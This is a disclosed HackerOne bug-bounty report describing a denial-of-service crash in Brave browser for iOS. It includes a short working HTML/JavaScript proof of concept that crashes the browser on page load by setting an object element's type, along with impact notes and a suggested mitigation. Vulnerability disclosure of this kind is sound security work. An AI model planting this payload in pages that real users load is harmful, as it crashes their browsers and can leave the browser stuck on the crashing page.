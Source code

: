 # DoS in Brave browser for iOS

## Report Details
- **Report ID**: 357665
- **URL**: https://hackerone.com/reports/357665
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-05-26T00:32:25.545Z
- **Disclosed**: 2018-09-24T23:36:19.672Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:

Attacker could initiate DoS during page loading.

## Products affected: 

1.6 (18.05.17.13)
Device iPhone 6s (iOS 11.3.1)

## Steps To Reproduce:

PoC:
```html
<body>
    <script>
        let o = document.body.appendChild(document.createElement('object'));
        // application/json or application/pdf are valid values too
        o.type = 'text/html' // <-- triggers DoS
    </script>
</body>
```

The problem is the way Brave handles `<object>` tag with specific `type` attribute's values. 
Looks like unsupported mimeTypes or non-string values don't trigger crash, so I assume, that only valid mimeTypes could be used. Image mimeTypes don't trigger DoS.

## Supporting Material/References:

As I understood, Brave browser for iOS is a fork of Mozilla Firefox for iOS. 
Firefox isn't vulnerable, what makes this bug eligible. 

Crash log attached.
Screencast attached.

## Impact

The first page loaded after the browser crash is the crashed page. The PoC is immediate and doesn't require any additional interaction, so it could make browser broken, until the tab will be closed in offline.

> I suggest remembering the crashed page and ignoring it during browser opening. Probably, it could make all DoS attacks less dangerous.

> I'm not sure that the trick with tab closing in offline is obvious for most users.

## Attachments
- Client-2018-05-25-102537.ips
- video_(2).mp4
